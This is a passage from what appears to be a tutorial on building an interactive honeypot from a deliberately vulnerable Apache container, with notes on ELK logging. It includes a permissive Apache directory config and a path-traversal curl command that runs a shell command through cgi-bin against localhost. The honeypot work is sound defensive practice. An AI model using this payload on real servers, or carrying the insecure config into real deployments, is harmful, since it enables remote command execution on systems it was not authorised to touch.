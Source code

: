 To build the vulnerable image:

``` bash
docker build . -t honeypot:latest
```

### Test the vulnerable container

The vulnerability requires specific permissions to be configured. Grab the default `httpd.conf` file and append these lines end of it:

```
<VirtualHost *:8080>
	DocumentRoot /var/www/html

	ErrorLog /var/log/apache2/error.log
	CustomLog /var/log/apache2/access.log combined

	<Directory />
		Require all granted
	</Directory>
</VirtualHost>
```

Then try to run the vulnerable container with the new config file:

``` bash
docker run -p 80:8080 \
    -v $(pwd)/httpd.conf:/usr/local/apache2/conf/httpd.conf \
    apache:latest
```

Test the vulnerability by running:

```
curl http://localhost/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh -d 'echo;whoami'
```

You should see `www-data` in output.

![PoC the vulnerability](/img/building-highly-interactive-honeypots2.png)

### Logging

The `Elasticsearch` ELK stack (Elasticsearch, Logstash, and Kibana) is an ideal solution for search and analytics platforms on honeypot logs.

There are various how-to's describing how to get ELK running (see [here](https://github.com/deviantony/docker-elk) and [here](https://www.elastic.co/guide/en/elasticsearch/reference/current/docker.html) for example), so I assume you already have a working ELK system.

### HTTP requests logs

A logger with these advantages is needed:
* No need to modify the container's configuration
* Prevent attackers from disabling the logger within the container
